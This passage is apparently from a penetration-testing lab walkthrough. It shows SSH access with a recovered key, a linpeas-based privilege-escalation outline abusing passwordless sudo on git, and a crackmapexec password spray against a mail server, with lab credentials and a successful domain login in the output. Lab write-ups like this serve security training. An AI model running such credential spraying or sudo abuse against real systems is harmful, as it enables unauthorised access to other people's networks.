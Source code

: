 {% code overflow="wrap" %}
```bash
kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 

Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-48-generic x86_64)
...
daniela@websrv1:~$ 
```
{% endcode %}

### A Link to the Past

1. _Host linpeas.sh via `python3 -m http.server 80`_
2. _Transfer to websrv1_
3. _Run linpeas.sh_
4. _Decide on path of attack. In our case we abuse being able to execute `git` with sudo, without a password._
5. _Check out the git history via `git log` then display the differences with `git show` to avoid disrupting the client's web server._

## Gaining Access to the Internal Network

### Domain Credentials

Using crackmapexec with the credentials we've discovered so far:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.50.242  445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
```
{% endcode %}
